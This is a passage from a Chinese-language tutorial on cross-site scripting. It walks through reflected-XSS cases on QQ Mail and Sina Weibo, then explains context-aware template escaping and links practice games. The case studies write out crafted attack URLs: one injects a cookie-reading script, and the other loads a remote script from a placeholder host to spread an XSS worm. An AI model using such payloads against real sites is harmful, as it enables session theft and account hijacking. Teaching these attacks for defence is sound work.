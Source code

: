 于是攻击者构建出一个 URL，并引导用户去点击：<br>
http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&amp;domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：

浏览器接收到响应后就会执行 alert(document.cookie)，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

#### <a name="%E6%96%B0%E6%B5%AA%E5%BE%AE%E5%8D%9A%E5%90%8D%E4%BA%BA%E5%A0%82%E5%8F%8D%E5%B0%84%E5%9E%8B%20XSS%20%E6%BC%8F%E6%B4%9E"></a>新浪微博名人堂反射型 XSS 漏洞

攻击者发现 http://weibo.com/pub/star/g/xyyyd 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

http://weibo.com/pub/star/g/xyyyd”&gt;&lt;script src=//xxxx.cn/image/t.js&gt;&lt;/script&gt;

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

浏览器接收到响应后就会加载执行恶意脚本 //xxxx.cn/image/t.js，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。



## 扩展阅读：Automatic Context-Aware Escaping

上文我们说到：
1. 合适的 HTML 转义可以有效避免 XSS 漏洞。
1. 完善的转义库需要针对上下文制定多种规则，例如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等等。
1. 业务 RD 需要根据每个插入点所处的上下文，选取不同的转义规则。
通常，转义库是不能判断插入点上下文的（Not Context-Aware），实施转义规则的责任就落到了业务 RD 身上，需要每个业务 RD 都充分理解 XSS 的各种情况，并且需要保证每一个插入点使用了正确的转义规则。

这种机制工作量大，全靠人工保证，很容易造成 XSS 漏洞，安全人员也很难发现隐患。

2009年，Google 提出了一个概念叫做：[Automatic Context-Aware Escaping](https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html)。

所谓 Context-Aware，就是说模板引擎在解析模板字符串的时候，就解析模板语法，分析出每个插入点所处的上下文，据此自动选用不同的转义规则。这样就减轻了业务 RD 的工作负担，也减少了人为带来的疏漏。

在一个支持 Automatic Context-Aware Escaping 的模板引擎里，业务 RD 可以这样定义模板，而无需手动实施转义规则：

模板引擎经过解析后，得知三个插入点所处的上下文，自动选用相应的转义规则：

目前已经支持 Automatic Context-Aware Escaping 的模板引擎有：
- [go html/template](https://golang.org/pkg/html/template/)
- [Google Closure Templates](https://developers.google.com/closure/templates/docs/security)


## 课后作业：XSS 攻击小游戏

以下是几个 XSS 攻击小游戏，开发者在网站上故意留下了一些常见的 XSS 漏洞。玩家在网页上提交相应的输入，完成 XSS 攻击即可通关。

在玩游戏的过程中，请各位读者仔细思考和回顾本文内容，加深对 XSS 攻击的理解。

[alert(1) to win](https://alf.nu/alert1)<br>[prompt(1) to win](http://prompt.ml/)<br>[XSS game](https://xss-game.appspot.com/)
